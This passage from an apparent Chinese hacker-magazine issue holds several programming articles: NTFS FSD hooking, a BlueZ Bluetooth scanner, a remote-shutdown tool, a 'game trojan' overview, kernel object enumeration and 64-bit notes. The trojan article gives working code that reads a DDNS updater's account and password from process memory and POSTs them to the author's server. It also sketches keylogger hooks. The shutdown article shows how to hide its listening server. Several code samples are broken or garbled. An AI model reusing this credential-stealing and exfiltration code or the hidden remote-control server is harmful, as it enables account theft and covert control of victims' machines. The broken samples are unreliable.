    return OldDispatchRoutine(DeviceObject,Irp);
}


```

这里对代码进行一下说明，使用 ObReferenceObjectByName 函数通过 "\\FileSystem\\Ntfs" 对象名称得到 NTFS 驱动所指向的目标设备对象指针。由于我的分区全是 NTFS 格式，所以这里只是获取 NTFS，如果要获取 FAT32 格式，那么通过 "\\FileSystem\\Fastfat" 对象名称就可获取 FAT32 驱动所指向的目标设备对象指针。这里 ObReferenceObjectByName 函数没有声明，需要自己声明一下。然后获取的对象指针取得指向 MajorFunction[IRP_MJ_SET_INFORMATION] 的地址，通过 InterlockedExchange 将自己所写的替代函数的地址与原来的分发例程地址交换。卸载驱动时再用保存的原地址交换回去。

保护文件的代码在我写的新函数中，可以参阅源代码，效果如图1所示。图2是通过 AntiRootkit 工具 XueTr 查看的结果，标示“fsd hook”的就是本文编写的 FSD Hook 分发例程的效果。
图1
图2

本文所介绍的只是 FSD Hook 的一种，还有很多的方法都可以对 FSD 进行 Hook。以后我会继续给大家介绍其他的 FSD Hook。文件驱动程序的 Hook 其实应用很广，现在流行的透明加密也是用的 FSD Hook（Minifilter）。

（编辑提醒：本文涉及的代码可到黑防官方网站下载）

前置知识：C、Linux

关键词：编程、BlueZ、蓝牙
##### 基于 BlueZ 接口开发蓝牙扫描程序

文/邪公子

无线安全中不仅仅涉及无线 WEP 及 WPA 的破解，还涉及蓝牙、VOIP 等技术。本文着重给大家介绍 Linux 上的蓝牙开发接口 BlueZ，帮助大家了解蓝牙程序的开发技术，并基于一个简单的蓝牙扫描程序进行说明。

BlueZ 的源代码可从 http://www.bluez.org/download/ 下载，其中 Linux 2.4/2.6 系列内核已经包含 BlueZ 内核模块源程序，因此要使用 BlueZ 只需下载最新稳定的 Linux 内核源码就行了。而从前面的网址可以下载一些库和工具程序的源代码，也可以通过源码仓库 http://www.bluez.org/development/git/ 来下载源码。

###### BlueZ 蓝牙接口介绍

BlueZ 是 Linux 官方蓝牙协议栈，一个基于 GNU General Public License（GPL）发布的开源项目，从 Linux 2.4.6 开始便成为 Linux 内核的一部分。蓝牙无线技术是一种小型的低成本无线解决方案，广泛应用于笔记本电脑、移动电话，以及其他移动手持设备，使其轻松接入到互联网。该规范由 Bluetooth Special Interest Group（SIG）发布。

BlueZ 提供了对蓝牙核心层和协议的支持，拥有许多特别的功能，比如完整的模块化实施、对称多处理安全、多线程数据处理、支持多种蓝牙设备、真实硬件抽象、标准的插座接口所有图层、设备和服务水平的安全支持等。

目前 BlueZ 有许多独立的模块，包括蓝牙核心子系统的核心；L2CAP 协议和 SCO 音频内核层；RFCOMM 协议，BNEP、CMTP 和 HIDP 内核实现；人机交互的 UART、USB、PCMCIA 和虚拟设备驱动程序；一般蓝牙和 SDP 库书馆与守护进程；配置和测试工具；以及协议解码和分析工具。

BlueZ 目前支持的平台有 Intel 与 AMD x86、AMD64 与 EM64T（x86-64）、SUN SPARC 32/64 位、PowerPC 32/64 位、Intel StrongARM 与 XScale、Hitachi/Renesas SH processors 和 Motorola DragonBall。支持的 Linux 发行版本有 Debian GNU/Linux、Ubuntu Linux、Fedora Core/Red Hat Linux、OpenSuSE/SuSE Linux 和 Mandrake Linux。

###### 数据结构及用到的函数

以下介绍的数据结构和函数将会在后面的扫描程序中用到，方便大家了解程序的具体实现。inquiry_info 数据结构定义在 BlueZ 包 hci.h 头文件中，代码如下：

```c
typedef struct {
    bdaddr_t bdaddr;
    uint8_t pscan_rep_mode;
    uint8_t pscan_period_mode;
    uint8_t pscan_mode;
    uint8_t dev_class[3];
    uint16_t clock_offset;
} __attribute__((packed)) inquiry_info;
```

该数据结构主要用来存储 hci_inquiry 查询结果。第一个数据成员 bdaddr_t 结构在下面会讲到。在大多数场合，我们仅用到 bdaddr，它标识了设备的蓝牙地址。有些场合我们也会用到成员 dev_class，它标识了被检测到的蓝牙设备的一些信息，例如识别这个设备是打印设备、电话，还是个人电脑等，详细的对应关系可以参见蓝牙设备分配号（https://www.bluetooth.org/foundry/assignnumb/document/baseband）。其余的成员用于底层通信，一般情况并不常用。

OK，下面介绍蓝牙地址数据结构 bdaddr_t，该数据结构定义在 bluetooth.h 中，原定义如下：

```c
/* BD Address */
typedef struct {
    uint8_t b[6];
} __attribute__((packed)) bdaddr_t;
```

蓝牙设备的地址均采用结构体 bdaddr_t 来描述，BlueZ 中对蓝牙地址的存储和操纵都使用 `bdaddr_t` 结构，这是基础的数据结构。下面主要介绍程序中将会用到的几个函数，也是蓝牙开发的一些基本 API。

- `hci_get_route` 函数。该函数定义在 `hci_lib.h` 头文件中，原定义为：`int hci_get_route(bdaddr_t *bdaddr);`，具体实现如下：

```c
int hci_get_route(bdaddr_t *bdaddr)
{
    return hci_for_each_dev(HCI_UP, __other_bdaddr,
        (long)(bdaddr ? bdaddr : BDADDR_ANY));
}
```

本地蓝牙适配器分配识别号码从 0 开始，一个程序必须指定适配器时就要使用分配的系统资源。通常只有一个适配器或无所谓哪一个使用，所以传递 `NULL` 给 `hci_get_route`，将会检索第一个可用的蓝牙适配器。如果有多个蓝牙设备，而想具体指定使用哪个蓝牙设备，可以使用 `hci_devid` 来替代 `hci_get_route`。假设蓝牙适配器地址已给定，则具体实现为：`int dev_id = hci_devid("00:11:22:33:44:55");`，`hci_devid` 将返回 `dev_id` 这个参数，传给 `hci_open_dev` 函数，或者由 `hci_get_route` 返回 `dev_id`，`dev_id` 将传给函数 `hci_open_dev`。

- `hci_open_dev` 函数。该函数在 `hci_lib.h` 中定义，具体定义如下：

```c
int hci_open_dev(int dev_id);
/* Open HCI device. Returns device descriptor (dd). */
```

函数实现如下：

```c
int hci_open_dev(int dev_id)
{
    struct sockaddr_hci a;
    int dd, err;

    /* 创建 HCI Socket */
    dd = socket(AF_BLUETOOTH, SOCK_RAW, BTPROTO_HCI);
    if (dd < 0)
        return dd;

    /* 绑定 Socket 到 HCI */
    memset(&a, 0, sizeof(a));
    a.hci_family = AF_BLUETOOTH;
    a.hci_dev = dev_id;
    if (bind(dd, (struct sockaddr *)&a, sizeof(a)) < 0)
        goto failed;

    return dd;

failed:
    err = errno;
    close(dd);
    errno = err;
    return -1;
}
```

`hci_open_dev` 函数可以打开特定号的一个套接口。确切地说，`hci_open_dev` 打开的套接字建立了一条与本地蓝牙适配器控制器的连接，而不是与远端蓝牙设备的连接。使用这个套接口发送命令到蓝牙控制器可以实现底层的蓝牙操作。

- `hci_inquiry` 函数（查询设备）。该函数在 `hci_lib.h` 头文件中定义，具体如下：

```c
int hci_inquiry(int dev_id, int len, int num_rsp, const uint8_t *lap,
                inquiry_info **ii, long flags);
```

`hci_inquiry` 的参数需要使用设备资源号而非套接口，所以我们使用 `hci_get_route` 函数的返回值 `dev_id` 传递给它。查询时间最长持续 `1.28 * len` 秒。`max_rsp` 个返回信息都被存储在变量 `ii` 中，这个变量必须有足够的空间来存储 `max_rsp` 返回的结果。我们推荐 `max_rsp` 取值 255 来完成标准 10.24 秒的查询工作。如果标志位 `flags` 设置为 `IREQ_CACHE_FLUSH`，那么在进行查询操作时会把先前一次查询记录的 cache 刷新，否则 `flags` 设置为 0 的话，即便先前查询的设备已经不处于有效范围内，先前查询的记录也将被返回。

- `hci_read_remote_name` 函数。该函数在 `hci_lib.h` 头文件中定义，具体如下：

```c
int hci_read_remote_name(int dd, const bdaddr_t *bdaddr,
                         int len, char *name, int to);
```

`hci_read_remote_name` 函数在规定的超时时间内使用套接口通过蓝牙地址 `bdaddr` 去获取蓝牙设备的名称，成功返回 0，并将获取的蓝牙设备名称存入 `name` 中；失败时返回 -1 并设置相应的 `error`。

##### 代码实现

`simplescan.c` 是一个查找周边蓝牙设备的简单应用程序。程序首先获取系统的蓝牙设备号，扫描周边的蓝牙设备，然后查找每一个被搜索到的蓝牙设备的名称。上面已经对数据结构和函数进行了详细描述，大家可以参考。

```c
// 包含头文件
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/socket.h>
// bluez 头文件
#include <bluetooth/bluetooth.h>
#include <bluetooth/hci.h>
#include <bluetooth/hci_lib.h>

int main(int argc, char **argv)
{
    typedef struct {
        bdaddr_t bdaddr;
        uint8_t  pscan_rep_mode;
        uint8_t  pscan_period_mode;
        uint8_t  pscan_mode;
        uint8_t  dev_class[3];
        uint16_t clock_offset;
    };
}
```

```c
inquiry_info *ii = NULL; // inquiry_info 结构
int max_rsp, num_rsp;
int dev_id, sock, len, flags;
int i;
char addr[19] = { 0 };
char name[248] = { 0 };
...
dev_id = hci_get_route(NULL);
sock = hci_open_dev(dev_id);
if (dev_id < 0 || sock < 0) {
    perror("opening socket");
    exit(1);
}
len = 8;
max_rsp = 255;
flags = IREQ_CACHE_FLUSH;
ii = (inquiry_info*)malloc(max_rsp * sizeof(inquiry_info));
num_rsp = hci_inquiry(dev_id, len, max_rsp, NULL, &ii, flags);
if (num_rsp < 0) perror("hci_inquiry");
for (i = 0; i < num_rsp; i++) {
    ba2str(&(ii+i)->bdaddr, addr);
    memset(name, 0, sizeof(name));
}
```

```c
if (hci_read_remote_name(sock, &(ii+i)->bdaddr,
    sizeof(name), name, 0) < 0)
    strcpy(name, "[unknown]");
printf("%s  %s\n", addr, name);
...
free(ii);
close(sock);
return 0;


```

以上代码的编译方式为：`gcc -o simplescan simplescan.c -lbluetooth`。这是用 BlueZ 接口开发的一个很简单的蓝牙小程序，但是已经可以实现简单的搜索周围的蓝牙设备了，很奇妙吧？

##### 总结

BlueZ 只是针对 Linux 上 C 开发者的一种 API 接口，该接口包含很多的 API。大家可以自己做一下研究，相信很快就可以开发出自己的蓝牙程序了。在 Linux 下，不仅 BlueZ 可以开发蓝牙程序，还有很多其他的程序接口，如 Python、Perl 等，开发起来也是相当简单的。

前置知识：VC  
关键词：编程、远程关机、套接字

##### VC 实现远程关机
文/后态

网络编程，套接字是必不可少的，但是套接字的编程也是有一定难度的，而且在套接字上实现远程机和本地机的信息交流还涉及一些函数调用。我们这里就说一个用 VC 6.0 编写的基于 MFC 界面的远程关机软件，可以在此基础上进行添加更多的基于 C/S 的远程控制功能。

##### 服务端的实现

首先我们需要建立控制台程序，这里就不详细说明了，相信大家都很清楚。之后建立一个新的头文件，将变量定义放在头文件里，`data.h` 中的内容如下：

```c
SOCKET server;
SOCKET client;
SOCKADDR_IN serveraddr;
char szRecv[128];
WSADATA wsadata;
int port = 7788;
SOCKET tserver;
```

下面我们就开始进行套接字的编程。服务端的实现现主要涉及初始化库、创建套接字、绑定（bind）、监听（listen）、等待连接（accept）。套接字编程代码如下：

```cpp
// 初始化库
WORD word = MAKEWORD(2,2);
WSAStartup(word,&wsadata);
// 创建套接字
server = socket(AF_INET,SOCK_STREAM,0);
// 填充
serveraddr.sin_family = AF_INET;
serveraddr.sin_port = htons(port);
serveraddr.sin_addr.S_un.S_addr = htonl(INADDR_ANY);
// 绑定
bind(server,(SOCKADDR*)&serveraddr,sizeof(serveraddr));
// 监听
listen(server,5);
printf("listen on port %d\n",port);
// 等待连接
int len = sizeof(serveraddr);
client = accept(server,(SOCKADDR*)&serveraddr,&len);
```

最后调用关机函数，定义函数 `shutdown_os(SOCKET)`，代码如下：

```cpp
int shutdown_os(SOCKET)
{
    // 提升权限
    HANDLE hToken;
    TOKEN_PRIVILEGES tkp;
    OpenProcessToken(GetCurrentProcess(),TOKEN_ADJUST_PRIVILEGES|TOKEN_QUERY,&hToken);
    LookupPrivilegeValue(NULL,SE_SHUTDOWN_NAME,&tkp.Privileges[0].Luid);
    tkp.PrivilegeCount = 1;
    tkp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    AdjustTokenPrivileges(hToken,FALSE,&tkp,0,(PTOKEN_PRIVILEGES)NULL,0);

    send(tserver,"连接成功请选择",14,0);
    memset(szRecv,0,128);
t1:
    recv(tserver,szRecv,1,0);
    if(strcmp(szRecv,"0")==0)
    {
        send(tserver,"执行注销",8,0);
        ExitWindowsEx(EWX_LOGOFF,0);
    }
    else if(strcmp(szRecv,"1")==0)
    {
        send(tserver,"执行关机",8,0);
        ExitWindowsEx(EWX_SHUTDOWN,0);
    }
    else if(strcmp(szRecv,"2")==0)
    {
        send(tserver,"执行重启",8,0);
        ExitWindowsEx(EWX_REBOOT,0);
    }
    else
        goto t1;
    return 0;
}


```

关机函数 `ExitWindowsEx` 在 Windows XP 下有个提升权限问题，需要用 `OpenProcessToken` 打开进程，再用 `AdjustTokenPrivileges` 函数实现权限的调整，从而实现系统的关机重启。执行完毕后，进行套接字的关闭以及清理库即可。

##### 客户端的实现

首先利用 MFC 窗体创建如图 1 所示的界面，并设置对应 ID。套接字的编程与服务端相似，过程为初始化库、创建套接字、连接（connect）。
图 1

MFC 界面需要创建一个线程 `serverThread`，防止因为 `connect` 和 `recv` 阻塞，出现程序无法响应的现象。线程 `serverThread` 的代码如下：

```cpp
DWORD WINAPI serverThread(LPVOID lparam)
{
    CClientDlg* pDlg = (CClientDlg*)lparam;
    int ret;
    // 连接
    client = connect(server,(SOCKADDR*)&serveraddr,sizeof(serveraddr));
    if(client == SOCKET_ERROR)
    {
        AfxMessageBox("连接出错了");
    }
    while(1)
    {
        memset(szRecv,0,128);
        ret = recv(server,szRecv,128,0);
        if(ret != 0 && ret != SOCKET_ERROR)
            pDlg->show();
        else
            break;
    }
    closesocket(server);
    closesocket(client);
    WSACleanup();
    return 0;
}
```

之后添加 `CClient` 类成员函数 `show()`，其定义如下：

```cpp
void CClientDlg::show()
{
    CString str;
    CString str1;
    // ...
}
```

```cpp
str = (CString)szRecv;
str += "\r\n";
GetDlgItemText(IDC_RECV, str1);
str = str1;
SetDlgItemText(IDC_RECV, str);


```

`show` 函数实现服务端向客户端发送数据显示在只读编辑框内。`IDC_RECV` 是只读编辑框的 ID。

最后添加相应按钮的响应。“连接”按钮对应 `CreateThread` 函数调用线程。其他 3 个功能按钮对应向套接字发送注销（0）、关机（1）、重启（2）命令，分别用 `send` 函数实现发送字符。

如此便可以实现一个远程关机软件的编写了。其他一些基本命令都可以在此基础上进行添加。对于服务端控制台程序还可以添加代码 `#pragma comment(linker, "/subsystem:\"windows\" /entry:\"mainCRTStartup\"")` 使服务端运行时隐藏。

> （编辑提醒：本文涉及的代码可以到黑防官网站下载）

前置知识：VC  
关键词：编程、木马、Hook

##### 游戏木马面面观
文/闪亮的心

在众多后门软件中，游戏木马是最神秘的一支，一方面因为它比较犯忌讳，另一方面它也是黑色产业链条中关键组成的部分。在国内，凡是牵扯经济利益的技术很少有人公布并且公开讨论，所以盗号木马一直不被大多数人所认识。本文将介绍主流盗号木马原理，希望大家明白后，能够有效地保护自己的各类账号。

一般来说，盗号木马有 4 种常见的实现方式，分别为通过鼠标键盘钩子截取账号密码；通过 Windows 消息机制来截取账号密码；读内存获取账号密码；封包截取获取账号密码。本文将主要讲解内存读取密码的原理，其他 3 种方式由于被淘汰或者比较少见，只做简单介绍。

##### 用钩子来读取账号和密码

钩子是 Windows 消息处理机制中的一个监视点，应用程序可以在这里安装一个子程序（钩子函数），以监视指定的窗口消息，所监视的窗口可以是自身的也可以是其他进程创建的。当消息到达后，在目标程序窗口处理函数之前，钩子函数可以对消息进行截获并处理。

钩子函数的安装是非常简单的，只需要调用 `SetWindowsHookEx` 即可。此函数的原型如下：

```cpp
_HHOOK SetWindowsHookEx(
```

```cpp
int idHook,
HOOKPROC lpfn,
HINSTANCE hMod,
DWORD dwThreadId
)
```

其中 `idHook` 参数指定了要安装钩子的类型，`lpfn` 参数指向了钩子函数的地址，`hMod` 指向钩子函数所在的 DLL 的实例句柄，如果钩子函数不在 DLL 中，则此参数设置为 `NULL`。`dwThreadId` 指向安装钩子后想监控的线程 ID 号，这个参数决定了钩子是局部的还是全局的，当设置为 `NULL` 的时候，则为全局钩子。

钩子建立以后，如果要实现记录鼠标键盘的输出，还需要建立一个处理键盘鼠标消息的回调函数，这和 Windows 消息机制很像，都是消息处理，只不过要将具体消息记录下来。它与 Windows 消息循环函数的区别就是需要对 `WM_KEYDOWN` 消息进一步处理，由于收到的消息都是键盘的 ASC 值，需要区别对待，总体格式如下：

```cpp
if(message == WM_KEYDOWN)
{
    if(vKey >= 48 && vKey <= 57)
    {
        switch(vKey)
        {
            // 这里处理每个消息，捕捉到对应按键的 ASC 值，或记录对应按键
        }
    }
}
```

可以说，消息钩子是盗号木马中最简单的一种。如果改变次序输入账号和密码，或者复制粘贴账号和密码，这样的盗号木马就无法记录了。所以，使用消息钩子来实现记录账号和密码的木马现在已经几乎绝迹，就不详细论述了。

###### 通过 Windows 消息机制截取账号密码

任何一个需要输入账号密码的窗口，都是 Windows 的应用程序窗口，那么账号和密码可以说是窗口消息循环函数的参数。我们可以把账号看成 wParam，密码看成 lParam，把登录键看做“确定”。一般来说，我们可以通过 FindWindow 来获取各类登录窗口的句柄（这里先不考虑游戏的自我保护），接着得到光标的位置。如果光标位置停留在“登录”这样的位置，就向窗口发送 SendMessage 消息，具体消息类型是 WM_GETTEXT，这样就能轻松获取登录窗口的文本信息，也就是账号和密码信息了。同时使用 GetWindowLong 和 SetWindowLong 也能达到同样的效果。

但此类获取账号和密码的方式也比较古老，一般游戏登录窗口自身会屏蔽这些消息。另外，在游戏驱动保护下，获取游戏窗口句柄也并不是一件容易的事，所以本文将主要讲解第 3 种方法，也就是读内存的方法。

###### 通过读内存获取账号和密码

读内存技术是现在盗号木马采用的主流方式。读内存，顾名思义就是在游戏进程的内存空间中找到账号和密码的保存位置，然后强行读取。通过读内存来获取密码具有准确性高、不受人为操作限制等优点。这里就用读取 3322 希网域名更新器内存中的账号和密码来说明这一技术。

如果要想从内存中读取账号、密码等信息，就需要知道账号、密码这些变量在进程中的内存地址。一般获取方式都是通过调试器 WinDbg 或者 OllyDBG 设置断点获取的，这里我直接给出具体地址。对于 3322 希网域名更新器来说，一共需要获取 3 个有效内容：一个是域名，一个是登录账号，一个是登录密码。这里直接给出具体参数，BaseIdAddr（域名基址）为 0x0043D050；BaseNoAddr（账号基址）为 0x0043DCA1；BasePwAddr（密码基址）为 0x0043D0C2。注意，这里我们还要获取这些参数的长度，否则读取和存储的时候，长度分配错误就有可能会导致密码读取失败，其中 dwID=0x50（3322 域名长度，十六进制），dwNo=0x20（3322 账号长度，十六进制），dwPw=0x20（3322 密码长度，十六进制）。

得到这些基本信息后，我们只要能获取希网更新器的句柄，然后用 ReadProcessMemory 即可。得到对应账号和密码后，直接发送到自己的空间。主要实现代码如下：

```cpp
//——定义全局变量——
char m_ID[80];   //3322 域名
char m_No[30];   //3322 账号
char m_Pw[30];   //3322 密码
char m_URL[64]="/test/info.asp"; //收信地址
char Host[40];
char RequestURL[40];
char HostIP[32];

DWORD GetProcessID(char *szProcessName)
//获取进程ID
{
    DWORD dwProcessID=0;
    HANDLE hProcessSnap = NULL;
    PROCESSENTRY32 pe32;
    memset(&pe32, 0, sizeof(pe32));
    pe32.dwSize = sizeof(pe32);
    hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    Process32First(hProcessSnap, &pe32);
    do {
        if(lstrcmpi(pe32.szExeFile, szProcessName) == 0) {
            dwProcessID = pe32.th32ProcessID;
            break;
        }
    } while(Process32Next(hProcessSnap, &pe32));
    CloseHandle(hProcessSnap);
    return dwProcessID;
}

bool Get3322Info()
//获取希网域名、账号、密码
{
    DWORD ProcessID;
    char* ProcessName = "Cn99qdns.exe";
    HANDLE h_Process;
    int BaseIdAddr = 0x0043D050; //域名基址
    int BaseNoAddr = 0x0043DCA1; //账号基址
    int BasePwAddr = 0x0043D0C2; //密码基址
    DWORD dwID = 0x50; //3322域名大小
    DWORD dwNo = 0x20; //3322账号大小
    DWORD dwPw = 0x20; //3322密码大小

    ProcessID = GetProcessID(ProcessName);
    h_Process = OpenProcess(PROCESS_QUERY_INFORMATION|PROCESS_VM_READ, FALSE, ProcessID);
    if(h_Process == NULL)
        return false;

    ReadProcessMemory(h_Process, (void*)BaseIdAddr, (void*)m_ID, 80, &dwID);
    //读取3322域名
    ReadProcessMemory(h_Process, (void*)BaseNoAddr, (void*)m_No, 30, &dwNo);
    //读取3322账号
    ReadProcessMemory(h_Process, (void*)BasePwAddr, (void*)m_Pw, 30, &dwPw);
    //读取3322密码
    return true;
}
```

```c
void HttpPostPacket(char *packet,char *url,char *host,char *data)
{
    // 构造 HTTP 包
    wsprintf(packet,"POST %s HTTP/1.1\r\n"
            "Accept: */*\r\n"
            "Content-Type: application/x-www-form-urlencoded\r\n"
            "Host: %s\r\n"
            "Content-Length: %d\r\n"
            "Connection: Keep-Alive\r\n"
            "Cookie: ASPSESSIONID...\r\n\r\n%s",
            url,host,strlen(data),data);
}

int Send3322Info(char *DateInfo)
{
    // 发送 3322 账号密码
    SOCKET sClient = socket(AF_INET,SOCK_STREAM,IPPROTO_TCP);
    if(sClient == INVALID_SOCKET){
        printf("socket error!\n");
        return 0;
    }

    sockaddr_in servAddr;
    servAddr.sin_family = AF_INET;
    servAddr.sin_port = htons(80);
    servAddr.sin_addr.S_un.S_addr = inet_addr(HostIP);

    if(connect(sClient,(sockaddr*)&servAddr,sizeof(servAddr)) == SOCKET_ERROR){
        printf("connect error!\n");
        closesocket(sClient);
        return 0;
    }

    char packet[1024];
    // 提交的 URL
    HttpPostPacket(packet,RequestURL,Host,DateInfo);
    // 构造数据包
    send(sClient,packet,strlen(packet),0);
    // 发送数据
    char revData[1024]={0};
    // 接收数据
    int ret=recv(sClient,revData,1024,0);
    // 关闭套接字
    closesocket(sClient);
    WSACleanup();
    return 0;
}
```

这样，一个简单的通过读取内存来获取 3322 账号与密码的小马就写好了。当然这还不具备木马的特质，我也不打算完成它，毕竟这只是技术讨论，没必要做成一款真正的木马来说明问题。

###### 封包截取来获取账号和密码

封包截取账号和密码可以说是一种非常高效的密码截取方法；说其高效，是因为一旦实现封包截取密码，就可以实现局域网的区域盗号。比如“传奇终结者”就属于此类木马的典范，通过 ARP 欺骗获取整个局域网的游戏封包，然后将密码解出。但封包截取必须要破解游戏运营商的加密方式。最早的网络游戏在加密上面可以说是非常薄弱的，所以破解起来相对容易；随着高级加密技术的投入使用，此类木马几乎绝迹，这里就不多做介绍了。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VC  
关键词：编程、驱动、内核对象

##### 简单获取所有内核对象类型

文/Cxs_cqupt  周林

最近翻阅黑防以前有关进程检测的文章，发现有从 EPROCESS 结构的双向链表出发的，有基于 PspCidTable 做进程检测的，于是我也尝试着看能不能探索出其他的进程检测方式。OBJECT_HEADER_CREATOR_INFO 这个结构让我看到了曙光，该结构的定义如下：

```c
struct _OBJECT_HEADER_CREATOR_INFO {
    LIST_ENTRY TypeList;
    PVOID CreatorUniqueProcess;
    USHORT CreatorBackTraceIndex;
    USHORT Reserved;
};
```

对象创建的时候，如果指定了相应的标志位，会在对象体前面附加这样一个结构体，并通过其字段 TypeList 将此类对象链入双向链表。我们得到一个 EPROCESS 结构，再得到 OBJECT_HEADER_CREATOR_INFO，并不能直接做出完整的进程链检测；有些 EPROCESS 包含该结构，有些并不包含（如 System.exe、smss.exe 等）。

在学习与探索中，可以利用 OBJECT_HEADER_CREATOR_INFO 得到系统内存在的类型对象，以及属于某种类型的对象个数。对象是分类的，因此有类型；类型对象集合也并不固定。可通过 `OBJECT -> OBJECT_HEADER -> OBJECT_TYPE -> OBJECT_HEADER -> OBJECT_HEADER_CREATOR_INFO` 的思路进行遍历。

- 第一步：通过 `PsLookupProcessByProcessId` 指定进程 ID（如 4）得到 `EPROCESS`。
- 第二步：通过 `OBJECT_TO_OBJECT_HEADER` 宏（或 `EPROCESS-0x18`）获得对象头。
- 第三步：通过 `OBJECT_HEADER` 内部字段获取类型对象。
- 第四步：同第二步。
- 最后：计算 `OBJECT_HEADER-0x10`，得到 `OBJECT_HEADER_CREATOR_INFO`。

到这里就简单了，一个双向链表的遍历代码如下：

```c
NTSTATUS status;
POBJECT_HEADER header;
POBJECT_TYPE_INITIALIZER init;
PEPROCESS Process;
```

```c
status = PsLookupProcessByProcessId(4, &Process);
if (!NT_SUCCESS(status))
    return STATUS_UNSUCCESSFUL;
header = OBJECT_TO_OBJECT_HEADER(Process);
init = &header->Type->TypeInfo;
ParseInitializer(init);
WalkType(OBJECT_TO_OBJECT_HEADER(header->Type));
```

WalkType 函数的定义如下：

```c
void WalkType(POBJECT_HEADER header){
    LIST_ENTRY *cur, *next;
    POBJECT_TYPE typeinfo;
    POBJECT_HEADER_CREATOR_INFO typecreatorinfo;

    typecreatorinfo = (POBJECT_HEADER_CREATOR_INFO)((char*)header - 0x10);
    cur = (LIST_ENTRY*)typecreatorinfo;
    next = cur->Flink;
    while (cur != next) {
        typeinfo = *(POBJECT_TYPE*)((char*)typecreatorinfo + 0x28);
        KdPrint(("[Name]%wZ\n", &typeinfo->Name));
        next = next->Flink;
    }
}


```

另外还有一点意外收获，比如 `OBJECT_TYPE` 中成对字段 `TotalNumberOfObjects/TotalNumberOfHandles` 与 `HighWaterNumberOfObjects/HighWaterNumberOfHandles`，可反映当前对象数与句柄数，以及峰值情况。

图 1

图 2

此外，还有一个重要的结构 OBJECT_TYPE_INITIALIZER，内部有很多重要字段，还提供了对象方法。在做 objecthook 检测的时候，这里是必经之路。用 OBJECT_TYPE_INITIALIZER 中的对象方法与方法的所有原始地址比较，可以判别是否被 patch 掉。图 2 是与 winobj.exe 的截图对比。

本文驱动代码在 WDK 6001.18002 + Windows XP SP2 下编译通过，在 Windows XP SP2 上加载并成功实现。大家如果还有什么问题，欢迎来黑防论坛与我讨论，我的论坛 ID 是 cxs_cqupt。

图 2

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VB2008  
关键词：编程、64 位编程、驱动

##### 浅谈 64 位环境下的编程

文/胡文亮

不知不觉间，64 位时代来临了。在上网的时候，经常能看到 360 说自己的“安全组合”支持 64 位 Windows 7。不过可笑的是，在任务管理器里看到的进程还带个“*32”的标志，就是说这个进程运行在“虚拟机”中，好比把 Turbo C 在 Windows XP 上运行一样。最近迷上了 64 位环境下的编程，这里就浅谈一下我这几个月在 64 位环境下编程的感受（包括应用程序和驱动程序），以及一些注意事项。

###### 64 位应用程序的编写

要编写 64 位应用程序，首先要有 64 位的编程工具。我现在只发现 Visual Studio 系列的软件支持编译 64 位程序，VS 2010 刚刚出来，VS 2005 显得太老，所以我推荐 VS 2008。经典的 VB 6/VC 6 要彻底抛弃了。不过要特别注意的是，默认情况下 VS 2008 的 VC++ 是不安装 64 位编译器的（即使是在 Windows 7 x64 上安装也是如此），安装时务必把它选上，否则无法编译 64 位程序。

接着说说数据类型的长度，如表 1 所示。

表 1

| 标识类型 | C 数据类型 | 存储区大小（以字节为单位） | 推荐对齐方式 |
|---|---|---:|---|
| INT8 | char | 1 | Byte |
| UINT8 | unsigned char | 1 | Byte |
| INT16 | short | 2 | Word |
| UINT16 | unsigned short | 2 | Word |
| INT32 | int、long | 4 | Doubleword |
| UINT32 | unsigned int、unsigned long | 4 | Doubleword |
| INT64 | __int64 | 8 | Quadword |
| UINT64 | unsigned __int64 | 8 | Quadword |
| FP32（单精度） | float | 4 | Doubleword |
| FP64（双精度） | double | 8 | Quadword |
| POINTER | * | 8 | Quadword |
| __m64 | struct __m64 | 8 | Quadword |
| __m128 | struct __m128 | 16 | Octaword |

由表可见，基本的数据类型长度变化不大，唯一变化的就是指针变量的长度，由 4 位变成了 8 位。在 32 位环境下可以把指针强制转换成 ULONG，在 64 位环境下强制转换指针的时候要使用 UINT64（在 VB 2008 里，Long 是 8 位的，Integer 是 4 位的，Short 是 2 位的）。……位的，和 VB 6 有很大不同）。以下是我们熟悉的 `LIST_ENTRY` 结构体，由 `Ptr32` 变成了 `Ptr64`，指针长度是 8。
对齐方式也改变了，x86 下是 4 字节对齐，而 x64 下是 8 字节对齐。图 2、图 3、图 4 和图 5 这 4 个示例各声明了一个对齐结构或联合，对应的图形说明了该结构或联合在内存中的布局。图形中的每列都表示一字节的内存，列中的数字指示该字节的位移。每个图形第二行中的名称对应于声明中的一个变量名。阴影列指示达到指定对齐所需的填充字节。

```c
// Total size = 2 bytes, alignment = 2 bytes (word)
__declspec(align(2)) struct {
  short a;   // +0; size = 2 bytes
};
```

###### 图 2

```c
// Total size = 24 bytes, alignment = 8 bytes (quadword)
__declspec(align(8)) struct {
  int a;      // +0; size = 4 bytes
  double b;   // +8; size = 8 bytes
  short c;    // +16; size = 2 bytes
};
```

###### 图 3

从 x86 到 x64 的两个重要修改是：64 位寻址功能和一组平面的用于常规使用的 16 个 64 位寄存器。对于扩展的寄存器集，x64 仅使用 fastcall 调用约定和基于 RISC 的异常处理模型。fastcall 模型使用寄存器（对前 4 个变量）和堆栈传递其他参数。

```c
// Total size = 12 bytes, alignment = 4 bytes (doubleword)
__declspec(align(4)) struct {
  char a;   // +0
  short b;  // +2
  char c;   // +4
  int d;    // +8
};
```

###### 图 4

```c
// Total size = 8 bytes, alignment = 8 bytes (quadword)
__declspec(align(8)) union {
  char r;
  short s;
  long t;
};
```

###### 图 5

x64 结构提供了 16 个通用寄存器（以后称为整数寄存器）以及 16 个可供浮点使用的 XMM 寄存器。易失寄存器是由调用方假想的临时寄存器，并要在调用过程中销毁。非易失寄存器需要在整个函数调用过程中保留其值，并且一旦使用，则必须由被调用方保存。表 2 说明了每种寄存器在整个函数调用过程中的使用方法。

熟悉的 EAX、EBX、EDX 消失了，变成了 RAX、RBX、RDX。正如 16 位汇编的 AX 变成了 EAX 一样。如果要详细说不同，还有很多地方不同，不过貌似并不影响我们用 VB/VC 进行编程。

###### 表 2

| Register | 状态 | 说明 |
|---|---|---|
| RAX | 易失的 | 返回值寄存器 |
| RCX | 易失的 | 第一个整型参数 |
| RDX | 易失的 | 第二个整型参数 |
| R8 | 易失的 | 第三个整型参数 |
